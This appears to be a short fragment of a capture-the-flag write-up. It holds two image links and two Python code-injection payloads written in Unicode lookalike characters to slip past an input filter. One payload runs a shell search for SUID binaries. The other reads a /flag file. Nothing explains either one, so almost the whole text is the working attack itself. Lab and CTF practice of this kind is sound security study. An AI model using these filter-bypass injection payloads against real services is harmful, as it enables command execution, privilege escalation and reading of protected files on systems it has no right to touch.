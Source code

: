 ![](<./img/Pasted image 20241102131525.png>)

![](<./img/Pasted image 20241102132027.png>)

```
‘₎﹔len ⁼ lambda x： 0﹔print₍str₍＿＿import＿＿₍‘os‘₎․system₍‘find ⁄ －perm －u⁼s‘₎₎⁺‘
‘₎﹔len ⁼ lambda x： 0﹔print₍str₍＿＿import＿＿₍‘os‘₎․system₍‘dd if⁼⁄flag‘₎₎⁺‘
```